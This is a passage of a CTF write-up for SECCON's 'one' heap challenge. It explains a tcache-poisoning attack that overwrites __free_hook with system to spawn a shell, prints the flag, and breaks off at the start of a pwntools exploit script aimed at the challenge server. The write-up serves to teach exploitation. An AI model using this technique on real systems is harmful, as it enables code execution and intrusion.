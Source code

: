 Now that we've got our leaks, we can do the final tcache poisoning attack. Remember those first four frees I did? This is where they matter.

Right now, the 0x40 tcache bin looks something like this:
```c
tcache[0x40] count=1  <-  0x55b71cb82270  <-  0x4141414141414141
```

We currently have a pointer to that 0x91 sized chunk we just used to get the libc leak. However, in order to do the tcache poisoning attack, we need a chunk that we can free into a tcache bin ***and*** get back out of it. Since the 0x91 sized tcache bin is full and we can only allocate 0x40 sized chunks, if we malloc again, this next chunk in the 0x40 tcache bin will come out.

The important thing to note here is that when it does come out, the bin count will have 1 subtracted from it. If we didn't ensure to free four times at the beginning of our exploit, count here would become a negative number. Since it is unsigned, the negative number would be interpreted as a large positive number (in this case, probably 0xff), which would make it seem as if this tcache bin is full. This would prevent us from doing a tcache poisoning attack.

Since we did free four times, the count will go down to 0 when we malloc this chunk out of the tcache bin, which will allow us to double free it and continue on with the tcache poisoning attack. This is why the first four frees were important.

I won't go into any detail about the tcache poisoning attack, it's pretty self explanatory:
```python
# Tcache poisoning attack to overwrite __free_hook with system
add('A'*8) # count = 0
free()
free()

# Overwrite __free_hook with system
add(p64(free_hook))
add(p64(0))
add(p64(system))

# Call system("/bin/sh\x00")
add('/bin/sh\x00')
free()
```

Flag: `SECCON{4r3_y0u_u53d_70_7c4ch3?}`

Am I used to the tcache? :thinking:

### **Final Exploit**

```python
#!/usr/bin/env python2

from pwn import *

BINARY = './one'
HOST, PORT = 'one.chal.seccon.jp', 18357

elf = ELF(BINARY)
libc = ELF('./libc-2.27.so')

def start():
    if not args.REMOTE:
        print "LOCAL PROCESS"
        return process(BINARY)
    else:
        print "REMOTE PROCESS"
        return remote(HOST, PORT)

def get_base_address(proc):
    return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

```